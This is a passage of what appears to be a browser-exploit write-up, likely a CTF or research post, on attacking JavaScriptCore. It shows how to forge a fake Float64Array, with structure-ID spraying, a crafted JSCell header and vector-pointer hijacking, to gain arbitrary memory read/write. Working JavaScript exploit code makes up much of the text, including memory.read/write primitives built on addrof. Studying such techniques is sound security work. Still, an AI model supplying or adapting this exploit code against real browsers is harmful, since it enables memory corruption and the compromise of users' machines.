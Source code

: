 - Now we will aim to achieve arb read/write, we achieve this using a fake Float64Array Instance.

Why Float64Array?
Typed Arrays store raw binary data, we can get arbitrary read/write if we control the data pointer.

Ok, Before we proceed further, To fake an object, We need a valid JSCell header and JS StructureID which is not static. In this case, We can predict a valid structure id by spraying a lot of objects and adding a different property each time which gives us a unique structure id.

- We now spray a lot of Float64Array instances and guess the structure id. we can check if the guess is correct using `instanceof`.
- After setting up the cell header of fake Float64Array, We make the vector ptr ( pointer to the backing memory ) of the fake object point to another array, which gives us arb read/write.
```javascript
function spray() {
  for (var i = 0; i < 10000; i++) {
    var a = new Float64Array(1);
    elem = "aaa" + i;
    a[elem] = 0xdeadbeef;
  }
}
spray();

var temp = new Uint8Array(1000);

/* JS cell header for a Float64Array
 m_structureID
 m_indexingType
 m_type
 m_flags
 m_cellState
 */

var jsCellHeader = new Int64([
  0x0,0x10,0x0,0x0, 
  0x0, 
  0x2c, 
  0x08, 
  0x1, 
]);

var container = {
  jsCellHeader: jsCellHeader.asJSValue(),
  butterfly: false, // Can't use 0x0 here because of conversion to JSValue, so we use false
  vector: temp,
  lengthAndFlags: new Int64("0x0001000000000100").asJSValue(),
};
```
```javascript 
memory = {
  read: function (addr, length) {
    fakearray[2] = addr.asDouble();
    var res = new Array(length);
    for (var i = 0; i < length; i++) res[i] = temp[i];
    return res;
  },
  write: function (addr, data) {
    fakearray[2] = addr.asDouble();
    for (var i = 0; i < data.length; i++) temp[i] = data[i];
  },
```
- The butterfly of the fake object is an invalid pointer, this causes a crash because of the garbage collector. we fix the fake object and the container to avoid a crash.
```javascript
var empty = {};
var header = memory.read(addrof(empty), 8);
```